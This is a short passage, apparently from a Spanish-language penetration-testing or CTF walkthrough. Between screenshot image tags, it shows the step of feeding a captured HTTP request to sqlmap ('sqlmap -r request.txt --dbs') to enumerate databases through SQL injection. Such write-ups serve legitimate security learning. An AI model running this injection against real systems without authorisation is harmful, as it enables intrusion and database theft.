     <img src="../img/Pasted_image_20250102222418.png" width="500">
</p>
<p align="center">
    <img src="../img/Pasted_image_20250102222418.png" width="500">
</p>
Una vez teniendo la petición, iniciaremos la herramienta de `sqlmap` de la siguiente forma.

```
sqlmap -r request.txt --dbs
```

<p align="center">
    <img src="../img/Pasted_image_20250102222617.png" width="500">
</p>
<p align="center">